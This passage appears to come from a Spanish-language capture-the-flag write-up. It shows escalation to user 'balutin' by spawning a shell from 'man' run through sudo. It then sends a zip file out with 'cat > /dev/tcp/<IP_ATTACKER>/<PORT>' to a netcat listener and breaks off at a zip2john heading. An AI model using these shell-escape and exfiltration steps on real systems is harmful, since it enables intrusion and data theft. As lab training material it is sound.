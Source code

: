## Escalate user balutin

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on 2f80b9197745:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on 2f80b9197745:
    (balutin) NOPASSWD: /usr/bin/man
```

Veremos que podemos ejecutar el binario `man` como el usuario `balutin` por lo que podremos hacer lo siguiente:

```shell
sudo -u balutin man man
!/bin/bash
```

Info:

```
balutin@2f80b9197745:/var/www/html$ whoami
balutin
```

Con esto ya seremos dicho usuario.

## Escalate Privileges

Si vamos a nuestra `home` veremos un archivo `.zip` el cual no podremos descomprimir ya que tiene contraseña, por lo que vamos a pasarnoslo a nuestra maquina `host` pero la maquina victima no tendra `python` por lo que tendremos que hacerlo de la siguiente forma:

```shell
cat ~/secretito.zip > /dev/tcp/<IP_ATTACKER>/<PORT>
```

En la maquina `host` pondremos lo siguiente:

```shell
nc -lvnp <PORT> > secretito.zip
```

Ahora enviamos el comando anterior estando a la escucha y veremos esto:

```
listening on [any] 7755 ...
connect to [192.168.1.146] from (UNKNOWN) [172.17.0.2] 44344
```

Con esto veremos que ha funcionado de forma correcta y veremos el archivo `secretito.zip` por lo que vamos a crackear la contraseña de la siguiente forma:

### zip2john
